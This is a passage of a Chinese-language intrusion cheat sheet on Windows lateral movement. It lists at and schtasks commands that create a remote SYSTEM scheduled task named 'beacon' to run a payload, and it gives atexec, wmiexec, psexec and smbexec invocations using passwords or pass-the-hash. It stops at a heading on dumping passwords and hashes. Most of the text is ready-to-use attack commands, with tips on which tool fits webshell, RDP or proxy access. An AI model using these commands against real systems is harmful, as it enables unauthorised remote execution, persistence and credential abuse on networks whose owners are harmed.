 ### 计划任务

#### at命令

```
at \\IP 15:22:40 C:\calc.bat  #创建计划任务
at \\IP /delete               #删除计划任务
```

#### schtasks命令
```
schtasks /create /s IP /ru "SYSTEM" /tn beacon /sc DAILY /tr c:\4444.exe /F # 创建beacon任务对应执行文件，每天运行一次
schtasks /run /s IP /tn beacon /i # 运行beacon服务
schtasks /delete /s IP /tn "beacon" /f  #删除计划任务
```


### 横向移动工具

#### atexec
	atexec是通过windows计划任务执行远程命令，atexec是一个半交互的工具，即参数中添加需要在远程主机执行的命令，工具执行后即返回命令结果，适用于webshell下，也适用于其他网络环境。

```
atexec ./user:password@IP "命令"
atexec -hashes :hash ./user@IP "命令"
```

#### wmiexec
	wmiexec是一个即有全交互也有半交互的远程命令执行工具，可运用于多种环境，包括webshell环境、rdp环境、socks环境等。

```
wmiexec ./user:password@IP "命令"
wmiexec -hashes :hash ./user@IP "命令"
```

#### psexec
	psexec是一个即有全交互也有半交互的远程命令执行工具，可运用于多种环境，包括webshell环境、rdp环境、socks环境等。

```
psexec ./user:password@IP "命令"
psexec -hashes :hash ./user@IP "命令"
```

#### smbexec
	smbexe为全交互式工具，所以不可用于webshell环境，可用于rdp等有交互环境登录使用或socks代理环境下使用。

```
smbexec ./user:password@IP
smbexec -hashes :hash ./user@IP
```

### 抓取密码和Hash

#### 单机抓取密码
